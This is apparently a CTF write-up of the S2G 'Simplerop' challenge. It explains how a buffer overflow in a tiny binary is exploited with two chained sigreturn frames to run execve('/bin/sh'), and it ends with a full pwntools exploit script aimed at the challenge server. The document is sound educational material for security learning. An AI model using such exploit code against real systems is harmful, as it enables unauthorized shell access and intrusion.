





### Double sigreturn to call execve("/bin/sh")
#### S2G pwn Simplerop

Pwning small binary with sigreturn and multiple syscalls.
 <!--more-->

This was a very fun challenge during the S2G pwn ctf in the fall of 2023. The way I solved this challenge was slightly harder than the intended, however I learned more doing it this way and it was very fun to make it work.

{}

When running the binary, it just says "vuln!" and waits for input. Disassembling it, we discover that it only contains _start and the vuln function. The assembly code of vuln looks like this:



As we can see there is not much here. There is a write syscall at vuln+37, which creates the "vuln!" output, and there is a read syscall at vuln+56, which reads 0x1000 bytes from stdin (the size of input to read is stored in rdx, see vuln+51). As there is only 0x10 bytes of buffer (see vuln+47), this creates a very large buffer overflow which we will have to exploit.

We will start by gaining control of the instruction pointer. To find the offset we can follow the normal procedure (see my other writeups) with sending 4 A's, using `info frame` in pwndbg and calculating the difference between the return pointer and our input buffer. In this case it turns out the offset is 24 before overwriting rip.

Now we have to figure out what to return to. After going down a few wrong leads, I realised that the read syscall in vuln returns the number of bytes read into rax. It doesn't matter what these bytes are, they can be all nullbytes if you'd like ([man read](https://man7.org/linux/man-pages/man2/read.2.html)). From the disassembly of vuln we can see that if we jump to 0x401038, we will execute a syscall. Which syscall is executed is decided based on the value in rax (see the [linux system call table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) for a good overview). Since we control rax with the amount of input we send to read, we can use any syscall we want.

Our goal will usually be to call execve("/bin/sh"). The rax value for execve is 0x3b, which we can create with the right amount of input bytes. However, we need a pointer to the string "/bin/sh" in rdi, and there is no easy way of doing that as our input is put on the stack, which has a random base address every time.

This caused me to consider different syscalls, and I remembered that I recently participated in a CTF with a similarly tiny binary, in which the solution used the sigreturn syscall. The sigreturn syscall ([man sigreturn](https://man7.org/linux/man-pages/man2/sigreturn.2.html)) is used in certain cases when returning from kernel to user space. The functionality we will use is that it clears all the registers and fills them with values from the stack (a sigreturn frame). Since we control 0x1000 bytes of the stack, we can create our own sigreturn frame and fill all of the registers with whatever we want!

This gives us a lot more control in terms of what syscall to call and with what parameters, however we still dont have a consistent pointer to "/bin/sh". Here is where i overcomplicated things a bit. I decided to use the read syscall to read "/bin/sh" from stdin to 0x402000, which is the address of the data section (this address can for example be found with `vmmap`). We can use the following pwntools magic to create our sigreturn frame for read.

```py
from pwn import *

context.arch = 'amd64' # This is necessary for SigreturnFrame(), don't ignore it

p = process("./chall")
# gdb.attach(p)
# p = remote("10.212.138.23", 51101)

syscall = 0x401038
vuln = 0x401000

frame = SigreturnFrame()
frame.rax = 0 # read
frame.rdi = 0 # stdin
frame.rsi = 0x402000 # address to read to
frame.rdx = 1000 # number of bytes to read
frame.rip = syscall

payload = b"A"*24
payload += p64(syscall)
payload += bytes(frame)

log.info(f"{len(payload)=}")

p.recvline()
p.sendline(payload)

p.interactive()
```

Running this and inspecting it in gdb shows us that we forgot an important part. Since our input is now many hundreds of bytes long (yes, the sigreturn frame is quite large), rax is not what it needs to be at the end of vuln. We need rax to be 15. Our solution for this is to first call vuln once more after sending our first input. Then we will send 14 bytes and a newline (15 total) to place 15 in rax, and afterwards it will call the syscall sigreturn. We do this by changing the last part of the above code to this:

```py
payload = b"A"*24
payload += p64(vuln)
payload += p64(syscall)
payload += bytes(frame)

log.info(f"{len(payload)=}")

p.recvline()
p.sendline(payload)

p.recvuntil(b"vuln!")
p.sendline(b"A"*14)

p.interactive()
```

Running this with gdb attached, we can see that the sigreturn syscall is executed. If we go one instruction further (`ni`) we can see that the read syscall we requested is actually being called.




I included the registers in the second image to demonstrate that all of the ones we didn't set have been zeroed. We can also see that the read syscall is being called with exactly the parameters we requested in our script. Now our next step will be to use the new read to get "/bin/sh" into 0x402000 and call execve with 0x402000 in rdi. However if we go one instruction further than the images above, we immediately segfault.

This happens because the next instruction is `leave`, which tries to copy the frame pointer from the rbp register to the rsp register. Since these registers have been zeroed out, this causes a segmentation fault. We also no longer have the stack addresses to write to as all references to them have been deleted.

Now we get to the clever part of my solution, where I realise that the only characteristics we need from the stack is that it is writeable and readable. That sounds a lot like the data segment, which as a bonus is also located at a known address. We will therefore set rbp and rsp to be 0x402100 (0x100 bytes into the data segment), and have the program treat the data segment as the stack. To do this I changed the frame in our code to the following.

```py
frame = SigreturnFrame()
frame.rax = 0 # read
frame.rdi = 0 # stdin
frame.rsi = 0x402000 # address to read to
frame.rdx = 1000 # number of bytes to read
frame.rbp = 0x402100
frame.rsp = 0x402100
frame.rip = syscall
```

Running this in gdb and trying to continue past the read syscall (just give the second read any input for now), we see this in gdb:



This looks great! We were able to continue past leave, and from the above picture we can see that the program is about to return to the address pointed to by rsp (0x402108). Since 0x402108 is 0x108 above our read input address at 0x402000, we will first send "/bin/sh" followed by a null byte, which totals to 8 bytes, and then 0x100 more bytes as offset. Our next 8 bytes will then control rip again, and we can repeat the procedure from before with sending the address of vuln, followed by the sycall gadget and then another SigreturnFrame. 

Since we now have a pointer to "/bin/sh" in 0x402000, it is time to call execve and get the flag by adding the below code.

```py
frame2 = SigreturnFrame()
frame2.rax = 0x3b  # execve
frame2.rdi = 0x402000 # pointer to "/bin/sh"
frame2.rsi = 0
frame2.rdx = 0
frame2.rip = syscall

second_payload = b"/bin/sh\x00"
second_payload += b"A"*0x100
second_payload += p64(vuln)
second_payload += p64(syscall)
second_payload += bytes(frame2)

log.info(f"{len(second_payload)=}")

input("press any key to continue")
p.sendline(second_payload)

p.recvuntil(b"/bin/s")
p.sendline(b"A"*14)

p.interactive()
```

An important thing to note is the input line which is used to have the solve script wait before sending the second payload. Without it, the second payload would be sent in the previous read buffer instead of the one we want. With the input line we can run the script and just click any button when it waits for input to send our payload at the correct time. We are also receiving until "/bin/s" this time, instead of "vuln!" as before. This is because the vulnstring was located at 0x402000, which of course was overwritten by our sigreturn-read.

Running our full solve script worked locally, and running it remote gave us the following flag.



## Full Exploit:
```py
from pwn import *

context.arch = 'amd64'

# p = process("./chall")
# gdb.attach(p)
p = remote("10.212.138.23", 51101)

syscall = 0x401038
vuln = 0x401000

frame = SigreturnFrame()
frame.rax = 0 # read
frame.rdi = 0 # stdin
frame.rsi = 0x402000 # address to read to
frame.rdx = 1000 # number of bytes to read
frame.rbp = 0x402100
frame.rsp = 0x402100
frame.rip = syscall

payload = b"A"*24
payload += p64(vuln)
payload += p64(syscall)
payload += bytes(frame)

log.info(f"{len(payload)=}")

p.recvline()
p.sendline(payload)

p.recvuntil(b"vuln!")
p.sendline(b"A"*14)

frame2 = SigreturnFrame()
frame2.rax = 0x3b  # execve
frame2.rdi = 0x402000 # pointer to "/bin/sh"
frame2.rsi = 0
frame2.rdx = 0
frame2.rip = syscall

second_payload = b"/bin/sh\x00"
second_payload += b"A"*0x100
second_payload += p64(vuln)
second_payload += p64(syscall)
second_payload += bytes(frame2)

log.info(f"{len(second_payload)=}")

input("press any key to continue")
p.sendline(second_payload)

p.recvuntil(b"/bin/s")
p.sendline(b"A"*14)

p.interactive()
```